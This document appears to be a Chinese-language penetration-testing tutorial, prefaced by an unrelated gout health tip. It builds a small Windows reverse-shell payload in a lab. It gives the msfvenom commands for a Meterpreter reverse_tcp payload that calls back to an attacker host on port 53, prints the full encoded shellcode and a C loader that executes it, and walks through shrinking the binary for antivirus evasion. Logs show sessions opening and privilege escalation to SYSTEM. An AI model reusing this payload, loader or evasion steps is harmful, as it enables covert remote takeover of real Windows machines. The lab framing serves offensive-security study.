注：请多喝点热水或者凉白开，可预防肾结石，通风等。 痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。
攻击机：
192.168.1.5 Debian
靶机：
192.168.1.4 Windows 7
192.168.1.119 Windows 2003
攻击机配置：
payload：windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.1.5 yes The listen address (an interface may be specified)
LPORT 53 yes The listen port
Exploit target:
Id Name
‐‐ ‐‐‐‐
0 Wildcard Target
msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.1.5:53

payload生成：
root@John:/tmp# msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=53 ‐b '\x00' ‐f exe > First.exe
原始payload大小如下：
73802字节，大概在72KB
root@John:/tmp# du ‐sb First.exe
73802 First.exe
第一次优化payload：
提取windows/meterpreter/reverse_tcp shellcode
root@John:/tmp# msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=53 ‐b '\x00' ‐f c
[‐] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[‐] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of c file: 1571 bytes
unsigned char buf[] =
"\\xd9\\xc3\\xba\\xa1\\x43\\xe5\\x72\\xd9\\x74\\x24\\xf4\\x5d\\x29\\xc9\\xb1"
"\\x56\\x31\\x55\\x18\\x03\\x55\\x18\\x83\\xc5\\xa5\\xa1\\x10\\x8e\\x4d\\xa7"
"\\xdb\\x6f\\x8d\\xc8\\x52\\x8a\\xbc\\xc8\\x01\\xde\\xee\\xf8\\x42\\xb2\\x02"
"\\x72\\x06\\x27\\x91\\xf6\\x8f\\x48\\x12\\xbc\\xe9\\x67\\xa3\\xed\\xca\\xe6"
"\\x27\\xec\\x1e\\xc9\\x16\\x3f\\x53\\x08\\x5f\\x22\\x9e\\x58\\x08\\x28\\x0d"
"\\x4d\\x3d\\x64\\x8e\\xe6\\x0d\\x68\\x96\\x1b\\xc5\\x8b\\xb7\\x8d\\x5e\\xd2"
"\\x17\\x2f\\xb3\\x6e\\x1e\\x37\\xd0\\x4b\\xe8\\xcc\\x22\\x27\\xeb\\x04\\x7b"
"\\xc8\\x40\\x69\\xb4\\x3b\\x98\\xad\\x72\\xa4\\xef\\xc7\\x81\\x59\\xe8\\x13"
"\\xf8\\x85\\x7d\\x80\\x5a\\x4d\\x25\\x6c\\x5b\\x82\\xb0\\xe7\\x57\\x6f\\xb6"
"\\xa0\\x7b\\x6e\\x1b\\xdb\\x87\\xfb\\x9a\\x0c\\x0e\\xbf\\xb8\\x88\\x4b\\x1b"
"\\xa0\\x89\\x31\\xca\\xdd\\xca\\x9a\\xb3\\x7b\\x80\\x36\\xa7\\xf1\\xcb\\x5e"
"\\x04\\x38\\xf4\\x9e\\x02\\x4b\\x87\\xac\\x8d\\xe7\\x0f\\x9c\\x46\\x2e\\xd7"
"\\x95\\x41\\xd1\\x07\\x1d\\x01\\x2f\\xa8\\x5d\\x0b\\xf4\\xfc\\x0d\\x23\\xdd"
"\\x7c\\xc6\\xb3\\xe2\\xa8\\x72\\xbe\\x74\\x93\\x2a\\xbf\\x81\\x7b\\x28\\xc0"
"\\x89\\x4e\\xa5\\x26\\xd9\\xe0\\xe5\\xf6\\x9a\\x50\\x45\\xa7\\x72\\xbb\\x4a"
"\\x98\\x63\\xc4\\x81\\xb1\\x0e\\x2b\\x7f\\xe9\\xa6\\xd2\\xda\\x61\\x56\\x1a"
"\\xf1\\x0f\\x58\\x90\\xf3\\xf0\\x17\\x51\\x76\\xe3\\x40\\x06\\x78\\xfb\\x90"
"\\xa3\\x78\\x91\\x94\\x65\\x2f\\x0d\\x97\\x50\\x07\\x92\\x68\\xb7\\x14\\xd5"
"\\x97\\x46\\x2c\\xad\\xae\\xdc\\x10\\xd9\\xce\\x30\\x90\\x19\\x99\\x5a\\x90"
"\\x71\\x7d\\x3f\\xc3\\x64\\x82\\xea\\x70\\x35\\x17\\x15\\x20\\xe9\\xb0\\x7d"
"\\xce\\xd4\\xf7\\x21\\x31\\x33\\x84\\x26\\xcd\\xc1\\xa3\\x8e\\xa5\\x39\\xf4"
"\\x2e\\x35\\x50\\xf4\\x7e\\x5d\\xaf\\xdb\\x71\\xad\\x50\\xf6\\xd9\\xa5\\xdb"
"\\x97\\xa8\\x54\\xdb\\xbd\\x6d\\xc8\\xdc\\x32\\xb6\\xfb\\xa7\\x3b\\x49\\xfc"
"\\x57\\x52\\x2e\\xfd\\x57\\x5a\\x50\\xc2\\x81\\x63\\x26\\x05\\x12\\xd0\\x39"
"\\x30\\x37\\x71\\xd0\\x3a\\x6b\\x81\\xf1";

建立Micropoor_small_payload工程，配置如下：


源码如下：
# include <windows.h>
int main(void)
{
char *shellcode = (char *)"Micropoor_shellcode";
DWORD Micropoor_shellcode;
BOOL ret = VirtualProtect(shellcode, strlen(shellcode),
PAGE_EXECUTE_READWRITE, &Micropoor_shellcode);
if (!ret) {
return EXIT_FAILURE;
}
((void(*)(void))shellcode)();
return EXIT_SUCCESS;
}
原始shellcode_payload大小如下： 75776字节

优化： 在优化的过程中，需要确保
- 性能
- 稳定性
- 大小
- 可塑性
- 免杀性
非算法，故优化/01

无使用预编译头，故否

无需调试信息，故否

自定义入口点：execMicropoor_shellcode

再次编译：

payload大小如下：
4608字节

第一次靶机测试：分别测试Windows 2003，Windws 7，reverse OK。
msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 4 opened (192.168.1.5:53 ‐> 192.168.1.119:3887) at 2019‐01‐27 14:30:27 ‐0500
meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter >
第二次优化payload：
载入PEID

合并data to text，rdata to text 在次生成。

Section变化如下：

payload大小如下：
4096字节

第二次靶机测试：分别测试Windows 2003，Windws 7，reverse OK。

msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 9 opened (192.168.1.5:53 ‐> 192.168.1.119:3891) at 2019‐01‐27 14:46:20 ‐0500
meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 1232
第三次优化payload：
在00000E60起含有大部分000h，充填掉00，在次生成payload。
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
....

payload大小如下：
3174字节

第三次靶机测试：分别测试Windows 2003，Windws 7，reverse OK。并且最终编译运行库依然为：/MT

msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 11 opened (192.168.1.5:53 ‐> 192.168.1.119:3894) at 2019‐01‐27 14:56:30 ‐0500 6
meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 3152
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

第四次优化payload：
.......
文中的前三次优化，三次生成，已满足大部分实战场景。当遇到更苛刻的实战场景，75776字节优化到3174字节，接下来的季中，会继续优化。
Micropoor